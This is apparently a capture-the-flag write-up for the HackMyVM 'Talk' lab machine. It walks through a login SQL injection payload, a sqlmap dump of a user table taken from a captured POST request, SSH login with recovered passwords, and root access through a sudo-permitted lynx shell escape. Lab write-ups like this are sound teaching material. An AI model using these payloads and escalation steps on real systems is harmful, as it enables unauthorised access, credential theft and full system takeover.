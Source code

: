 # Talk - HackMyVM, writeup

## Login sql injection
```console
Username : admin' or '1'='1'-- -
Password : whateveryouwant
```
## POST request sql injection ( send_message.php )
- r.txt
```
POST /send_message.php HTTP/1.1
Host: 10.0.2.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Origin: http://10.0.2.179
Connection: close
Referer: http://10.0.2.179/home.php
Cookie: PHPSESSID=m7ffe2uiavtmhbkmupt24lh2qi

msg=hi&id=1
```
#### SQLmap
```console
sqlmap -r r.txt --dump -D chat -T user
```
```
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrian*******   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsmy******** | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriend***     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | david********   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

## Reading the chat
```
 February 18, 2021 4:48:pm
nona: where is adrian?

February 18, 2021 4:49:pm
tina: he got hacked!

February 18, 2021 4:49:pm
jerry: all of us....

February 18, 2021 4:50:pm
nona: :(
```
- The hacker shuffle the passwords 
#### Correct username & password matching
```
nona  : thatsmy********
```
## SSH as nona
```console
┌──(alienum㉿kali)-[~]
└─$ ssh nona@10.0.2.179                                    
nona@10.0.2.179's password: thatsmy********
nona@talk:~$ ls
flag.sh  user.txt
nona@talk:~$
```
## Root
#### sudo -l

```console
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
```
####
```console
nona@talk:~$ sudo -u root /usr/bin/lynx
Spawning your default shell.  Use 'exit' to return to Lynx.

Press : SHIFT + 1

root@talk:/home/nona# cd
root@talk:~# ls
flag.sh  root.txt
root@talk:~#
```
## Thanks sML for these new type of machines (Speed and Talk)
